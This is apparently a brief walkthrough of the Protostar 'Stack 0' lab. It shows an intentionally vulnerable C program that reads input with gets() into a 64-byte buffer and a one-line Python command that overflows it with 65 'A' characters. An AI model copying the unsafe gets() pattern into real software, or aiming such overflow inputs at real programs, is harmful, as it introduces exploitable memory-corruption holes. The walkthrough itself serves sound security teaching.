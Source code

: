Stack 0

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

<p> 
So, to change the variable we need to overflow the allocated memory. <br>
In our case buffer has 64 bytes so to overflow buffer we need to 65 <br>
So just print 'A' 65 times
</p>

```shell
python -c "print('A' * 65)" | /opt/protostar/bin/stack0
```
